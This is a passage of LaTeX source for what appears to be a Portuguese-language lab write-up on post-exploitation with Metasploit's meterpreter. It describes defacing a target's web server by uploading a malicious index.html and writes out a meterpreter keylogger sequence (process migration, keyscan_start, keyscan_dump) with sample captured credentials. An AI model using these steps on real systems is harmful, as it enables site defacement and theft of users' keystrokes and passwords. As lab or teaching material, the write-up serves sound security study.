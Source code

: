 \documentclass{article}
\newcommand{\code}[1]{\texttt{#1}}
\newcommand{\img}[1]{%
    \texttt{[image: \#1]}
}
\begin{document}
\begin{enumerate}
\begin{enumerate}
                \img{imgs/cat_haha.png}

                Estando no servidor, foi possível ver que a pasta
                \code{/var/www/} contém arquivos diretos do site hosteado pela
                máquina alvo, tendo um arquivo \code{index.html} como página
                inicial. Sendo assim, bastou utilizar o comando \code{upload}
                para substituir o conteúdo do \code{index.html} pela página
                maliciosa:

                \img{imgs/upload.png}

                E, com isso, ao se acessar o servidor da máquina alvo pelo
                navegador\ldots:

                \img{imgs/hacked.png}

                A segunda possibilidade seria iniciar um keylogger, porém por
                algum motivo a versão do meterpreter instalada na ISO não
                conseguia executar os scripts Ruby pré-prontos do Metasploit, e
                portanto não foi possível mostrar o uso, porém a sequência de
                comandos supostamente seria:

                \begin{verbatim}
                    > ps
                    ... lista de processos e seus PIDs ...
                    > # Localiza-se o PID de algum processo de interesse no
                    > # servidor (e.g. Explorer.exe) e então migra-se para ele:
                    > migrate o-pid-de-interesse
                    [*] Migrating to o-pid-de-interesse...
                    [*] Migration completed successfully.
                    > # Inicia-se o keylogger:
                    > keyscan_start
                    Starting the keystroke sniffer...
                    > # Espera por teclas serem pressionadas, e quando estiver
                    > # satisfeito, são salvas as teclas lidas:
                    > keyscan_dump
                    Dumping captured keystrokes...
                       tgoogle.cm my credit amex   myusernamthi     amexpasswordpassword
                    > # Fim
                \end{verbatim}
        \end{enumerate}
    \end{enumerate}
\end{document}
